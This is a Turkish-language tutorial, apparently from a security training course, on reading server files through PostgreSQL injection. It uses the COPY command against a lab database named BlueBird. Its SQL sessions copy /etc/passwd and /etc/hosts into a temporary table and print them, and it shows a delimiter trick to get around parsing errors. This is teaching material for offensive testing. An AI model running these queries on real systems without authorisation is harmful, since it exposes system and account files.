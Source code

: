 Bu bölümde, server'a ve server'dan dosya okumak ve yazmak için kullanabileceğimiz iki yönteme göz atacağız ve ardından pratik yapmak için BlueBird'de etkileşimli bir örneği ele alacağız.

## Method 1: COPY

PostgreSQL enjeksiyonu aracılığıyla sunucudaki dosyalarla etkileşim kurmanın ilk yöntemi built-in [COPY](https://www.postgresql.org/docs/current/sql-copy.html) komutunu kullanmaktır. Bu komutun kullanım amacı tabloları import/export etmektir, ancak hemen hemen her şeyi okumak için kullanabiliriz. Dosya işlemleri sistemde `postgres` kullanıcısı olarak çalışır, bu nedenle dosyaları yalnızca kullanıcının izinlerine göre okumanın/yazmanın mümkün olduğunu unutmayın.

#### Reading Files

Dosya sisteminden bir dosya okumak için COPY FROM syntax'ını kullanarak bir dosyadaki verileri veritabanındaki bir tabloya kopyalayabiliriz. İşleri kolaylaştırmak için, bir text sütunu olan geçici bir tablo oluşturabilir, hedef dosyamızın içeriğini içine kopyalayabilir ve ardından içeriği aşağıdaki gibi seçtikten sonra bırakabiliriz:

```shell-session
bluebird=# CREATE TABLE tmp (t TEXT);
CREATE TABLE
bluebird=# COPY tmp FROM '/etc/passwd';
COPY 59
bluebird=# SELECT * FROM tmp LIMIT 5;
                        t                        
-------------------------------------------------
 root:x:0:0:root:/root:/usr/bin/zsh
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
 bin:x:2:2:bin:/bin:/usr/sbin/nologin
 sys:x:3:3:sys:/dev:/usr/sbin/nologin
 sync:x:4:65534:sync:/bin:/bin/sync
(5 rows)

bluebird=# DROP TABLE tmp;
DROP TABLE
```

Dosyaları okumak için `COPY` kullanmanın bir sorunu, verilerin sütunlara ayrılmasını beklemesidir. Varsayılan olarak `\t`'yi bir sütun olarak ele alır, bu nedenle `/etc/hosts` gibi bir dosyayı okumaya çalışırsanız bu hatayla karşılaşırsınız:

```shell-session
bluebird=# COPY tmp FROM '/etc/hosts';
ERROR:  extra data after last expected column
CONTEXT:  COPY tmp, line 1: "127.0.0.1  localhost"
```

Ne yazık ki bunu aşmanın mükemmel bir çözümü yok, ancak yapabileceğimiz şey, **`\t`** (tab) karakteri yerine verilerde bulunma ihtimali düşük olan başka bir karakteri ayraç (`delimiter`) olarak kullanmaktır. Örneğin şöyle yapabiliriz:

```shell-session
bluebird=# COPY tmp FROM '/etc/hosts' DELIMITER E'\x07';
COPY 7
bluebird=# SELECT * FROM tmp;
                             t                              
------------------------------------------------------------
 127.0.0.1       localhost
 127.0.1.1       kali
 
 # The following lines are desirable for IPv6 capable hosts
 ::1     localhost ip6-localhost ip6-loopback
 ff02::1 ip6-allnodes
 ff02::2 ip6-allrouters
(7 rows)
```

